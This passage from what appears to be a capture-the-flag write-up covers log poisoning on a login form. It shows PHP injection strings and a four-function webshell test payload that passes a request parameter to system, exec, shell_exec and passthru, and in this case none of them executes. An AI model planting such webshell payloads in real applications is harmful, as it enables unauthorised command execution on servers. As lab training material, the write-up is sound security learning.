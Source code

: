 I've got four different repeater tabs with different requests I'll send
over and over. POST is to submit a login to poison the log. The other
three allow me to interface with my poisoned log to show different
directories or files, or reset the log.

I'll use the POST tab to send `1: <?php echo "0xdf"; ?>` for username
and `2: <?php echo "was here"; ?>` for password. I like to enter some
plain text next to the php to help me orient in the log. Sometimes the
php parts may display as nothing, and it's nice to quickly identify
where it would have been.

But in this case, when I view the log for this session, the php does
run:



    [02 March 2019, 11:46:03 AM] 10.10.14.14 - Username: 1: 0xdf, Password: 2: was here



#### PHP Can't Execute

The obvious next step here is to put in a shell. I'll clear the log with
`init`, and then I'll POST with username `1: <?php system(whoami); ?>`
(remembering to url encode it with ctrl-u in burp). On viewing the log,
I'll see my new entry, but with no `whoami` output:



    [02 March 2019, 11:56:23 AM] 10.10.14.14 - Username: 1: , Password: 2: was here



I have a file I wrote doing OSCP to test for different types of
execution in php. It tried to run a command over php using 4 different
calls. In each case, it tries to run `whoami`, a command that will work
on either Linux or Windows, and it gives me the option to submit a
command as well:



    <?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
    <?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
    <?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
    <?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>



So I'll set my username to that, url encode it, and submit. Nothing
executes:



    [02 March 2019, 11:59:55 AM] 10.10.14.14 - Username: system: <br/>exec: <br/>shell_exec: <br/>passthru: , Password: 2: was here



Remembering that ASP.NET is also in the response headers, I tried an
aspx webshell as well, but it doesn't work. I'll show why in [Beyond
Root](#aspx-webshell).

#### Dir Walk / File Read / Write File
